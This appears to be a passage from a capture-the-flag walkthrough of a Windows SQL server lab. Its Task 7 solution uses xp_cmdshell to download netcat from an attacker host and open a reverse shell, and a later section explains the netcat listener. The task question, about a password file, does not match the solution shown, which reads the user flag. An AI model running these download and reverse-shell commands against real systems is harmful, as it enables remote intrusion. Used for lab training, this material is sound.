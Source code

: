 The key insight here is that WinPEAS helps automate the discovery of privilege escalation vectors, but you still need to exploit those vectors manually. In this case, it helps point you toward checking PowerShell history files, which contain the administrator credentials.


### Task 7: What file contains the administrator's password?

**Question:** What file contains the administrator's password?

**Solution:**
```bash
# First, set up a Python HTTP server on the attack machine
python3 -m http.server 80

# Then, set up a netcat listener
nc -lvnp 443

# Using xp_cmdshell, download netcat to the target
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{ATTACKER_IP}/nc64.exe -outfile nc64.exe"

# Establish a reverse shell
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {ATTACKER_IP} 443"

# Once the shell is established, navigate to the Desktop and read the user flag
cd C:\Users\sql_svc\Desktop
type user.txt
```

**Importance:** This demonstrates the complete attack chain from initial access to user compromise, utilizing command execution to establish a reverse shell.

**Flag Captured:** User Flag (actual value redacted)

# Understanding the `nc -lvnp 443` Command

The command `sudo nc -lvnp 443` sets up a netcat listener on your attack machine, which is essential for receiving the reverse shell connection from the target. Let me explain what this does and why it's important:

## What is this command?

`sudo nc -lvnp 443` breaks down as:

- `sudo`: Run with elevated privileges (needed to bind to port 443)
- `nc`: The netcat utility, a versatile networking tool
- `-l`: Listen mode (instead of connecting to a remote host)
- `-v`: Verbose output (shows more details about the connection)
- `-n`: Skip DNS resolution (use IP addresses directly)
- `-p 443`: Listen on port 443 (HTTPS port, often allowed through firewalls)
